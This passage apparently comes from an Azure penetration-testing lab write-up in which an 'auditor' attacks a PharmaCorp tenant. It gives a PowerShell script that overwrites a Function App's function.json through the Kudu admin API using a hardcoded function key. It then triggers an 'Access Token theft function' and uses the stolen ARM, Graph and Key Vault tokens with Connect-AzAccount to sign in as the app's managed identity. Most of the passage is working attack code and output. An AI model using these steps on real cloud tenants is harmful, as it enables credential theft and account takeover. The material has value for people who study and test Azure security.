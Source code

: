 ```http
            "direction": "in",
            "name": "req",
            "methods": [
                "get",
                "post"
            ]
        },
        {
            "type": "http",
            "direction": "out",
            "name": "$return"
        }
    ]
}
```
###### PowerShell
```powershell
$URL = "https://compositionprocessing.azurewebsites.net/admin/vfs/home/site/wwwroot/Student105/function.json"
$Params = @{
"URI" = $URL
"Method" = "PUT"
"Headers" = @{
"Content-Type" = "application/octet-stream"
"x-functions-key" = "7JGHkhp1cWbNdZbZmEsdSqwwu2p-pbG7afGcc55qNyWUAzFufM557w=="
}
}
$Body = @"
{ "bindings": [ { "authLevel": "anonymous", "type": "httpTrigger", "direction": "in", "name": "req", "methods": [ "get", "post" ] }, { "type": "http", "direction": "out", "name": "`$return" } ] }
"@

Invoke-RestMethod @Params -UseBasicParsing -Body $Body
```

- The auditor can now navigate to `https://compositionprocessing.azurewebsites.net/api/Student105` to trigger the Access Token theft function.
- The auditor can now use the stolen tokens to authenticate to Azure as the Managed Identity of the `compositionprocessing` Function App.
```powershell
PS C:\Auditor> $armtoken = 'eyJ0e...4mcrOyNDqYUA6Ig'
PS C:\Auditor> $msgraphtoken = 'eyJ0eXA...4_5l1afg'
PS C:\Auditor> $keyvaulttoken = 'eyJ0eX...Otv47FA'
PS C:\Auditor> Connect-AzAccount -AccountId 'c26cab12-8055-479d-a764-d656e4392577' -AccessToken $armtoken -MicrosoftGraphAccessToken $msgraphtoken -KeyVaultAccessToken $keyvaulttoken

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
c26cab12-8055-479d-a764-d656e4392577 PharmaCorp       e0f999c1-86ee-47a0-bfd5-18470154b7cd AzureCloud
```
